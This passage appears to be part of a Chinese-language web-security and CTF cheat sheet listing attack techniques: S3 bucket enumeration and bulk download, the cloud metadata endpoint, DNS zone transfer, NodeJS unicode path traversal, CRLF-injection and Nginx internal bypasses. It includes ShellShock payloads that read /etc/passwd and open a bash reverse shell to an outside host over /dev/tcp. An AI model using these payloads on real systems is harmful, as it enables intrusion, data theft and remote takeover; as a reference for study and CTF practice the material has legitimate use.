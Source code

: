- AWS常見漏洞
  - S3 bucket權限配置錯誤
    - nslookup判斷
      - `nslookup 87.87.87.87`
      - `s3-website-us-west-2.amazonaws.com.`
    - 確認bucket
      - 訪問`bucketname.s3.amazonaws.com`
      - 成功會返回bucket XML資訊
    - awscli工具
      - 列目錄 `aws s3 ls s3://bucketname/ --region regionname`
      - 下載 `aws sync s3://bucketname/ localdir --region regionname`
  - metadata
    - http://169.254.169.254/latest/meta-data/
    - Tool
      - https://andresriancho.github.io/nimbostratus/

- 常見Port服務
  - http://packetlife.net/media/library/23/common_ports.pdf
- `php -i | grep "Loaded Configuration File"`

  - 列出php.ini路徑

- `curl -i -X OPTIONS 'http://evil.com/'`

- ShellShock

  - `() { :; }; echo vulnerable`
  - `() { :a; }; /bin/cat /etc/passwd`
  - `() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`

- X-forwarded-for偽造來源IP

- DNS Zone Transfer
  - `dig @1.2.3.4 abc.com axfr`
    - DNS Server: `1.2.3.4`
    - Test Domain: `abc.com`

- NodeJS unicode failure
  - 內部使用UCS-2編碼
  - `ＮＮ` => `..`
    - `Ｎ` 即 `\xff\x2e`
    - 轉型時捨棄第一個Byte

- 特殊的CRLF Injection繞過
  - `%E5%98%8A`
  - 原始的Unicode碼為`U+560A`
  - raw bytes: `0x56`, `0x0A`

- MySQL utf8 v.s. utf8mb4
  - MySQL utf8編碼只支援3 bytes
  - 若將4 bytes的utf8mb4插入utf8中，在non strict模式下會被截斷
  - CVE-2015-3438 WordPress Cross-Site Scripting Vulnerability

- Nginx internal繞過
  - `X-Accel-Redirect`
  - [Document](https://www.nginx.com/resources/wiki/start/topics/examples/x-accel/)
  - Example:
    - Olympic CTF 2014 - CURLing
    - MidnightSun CTF 2019 - bigspin
